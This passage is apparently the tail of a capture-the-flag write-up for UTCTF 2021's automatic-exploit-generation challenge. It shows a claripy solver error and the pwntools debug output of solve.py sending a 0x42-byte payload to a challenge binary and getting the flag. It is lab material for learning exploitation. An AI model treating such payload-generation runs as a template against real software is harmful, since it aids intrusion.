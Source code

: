 The first time I ran it failed on the 6th case due to  
`claripy.errors.UnsatError: CompositeSolver is already unsat`, so I just ran
it  
again it gave me the flag!

```  
$ python3 solve.py  
...  
b'[+] Wrote payload to bins/9.exp\n'  
[DEBUG] Sent 0x42 bytes:  
   00000000  40 10 04 80  34 88 02 40  04 04 40 01  10 02 08 02
│@···│4··@│··@·│····│  
   00000010  20 20 08 10  40 80 40 01  01 20 c2 10  10 02 40 20  │  ··│@·@·│·
··│··@ │  
   00000020  40 01 80 02  20 80 02 80  40 80 08 04  01 80 08 20  │@···│
···│@···│··· │  
   00000030  08 10 01 20  08 02 02 08  20 40 04 00  00 f5 00 00  │··· │····│
@··│····│  
   00000040  0a 0a                                               │··│  
   00000042  
[DEBUG] Received 0x2e bytes:  
   b'Process exited with return code 100\n'  
   b'Congrats!\n'  
[*] Switching to interactive mode  
Congrats!  
[DEBUG] Received 0x27 bytes:  
   b'utflag{exploit_machine_goes_brrrrrrrr}\n'  
utflag{exploit_machine_goes_brrrrrrrr}  
[*] Got EOF while reading in interactive  
$  
```

What a cool challenge :)  

Original writeup (https://github.com/cscosu/ctf-
writeups/tree/master/2021/utctf/AEG).
